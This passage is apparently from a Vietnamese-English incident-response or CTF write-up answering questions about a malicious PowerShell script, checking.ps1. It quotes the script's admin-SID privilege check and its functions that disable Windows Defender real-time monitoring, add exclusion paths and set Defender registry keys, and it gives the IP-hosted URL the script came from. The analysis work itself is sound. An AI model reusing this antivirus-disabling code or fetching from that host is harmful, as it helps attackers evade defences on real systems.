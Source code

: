 ```powershell

if ($priv -eq $true) {
    try {
        StopAV
    } catch {}
    Start-Sleep -Seconds 1
    CleanerEtc
} else {
    CleanerNoPriv
}
```

`http://87.96.21.84/checking.ps1`

## Q7

**Understanding which group Security Identifier (SID) the malicious script checks to verify the current user's privileges can provide insights into the attacker's intentions. Can you provide the specific Group SID that is being checked?**

Ngay dòng đầu của `checking.ps1` hacker có tìm 

```powershell
$priv = [bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
```

`S-1-5-32-544`

## Q8

**Windows Defender plays a critical role in defending against cyber threats. If an attacker disables it, the system becomes more vulnerable to further attacks. What are the registry keys used by the attacker to disable Windows Defender functionalities? Provide them in the same order found.**

Trong `checking.ps1` có hàm `StopAV` và `Disable-WindowsDefender`

```powershell
Function StopAV {

    if ($osver -eq "10") {
        Set-MpPreference -DisableRealtimeMonitoring $true -ErrorAction SilentlyContinue
    }
    Function Disable-WindowsDefender {

        if ($osver -eq "10") {

            Set-MpPreference -DisableRealtimeMonitoring $true -ErrorAction SilentlyContinue
            Set-MpPreference -ExclusionPath "C:\ProgramData\Oracle" -ErrorAction SilentlyContinue
    

            Set-MpPreference -ExclusionPath "C:\ProgramData\Oracle\Java" -ErrorAction SilentlyContinue
            Set-MpPreference -ExclusionPath "C:\Windows" -ErrorAction SilentlyContinue
    

            $defenderRegistryPath = "HKLM:\SOFTWARE\Microsoft\Windows Defender"
            $defenderRegistryKeys = @(
                "DisableAntiSpyware",
                "DisableRoutinelyTakingAction",
                "DisableRealtimeMonitoring",
                "SubmitSamplesConsent",
                "SpynetReporting"
            )
    

```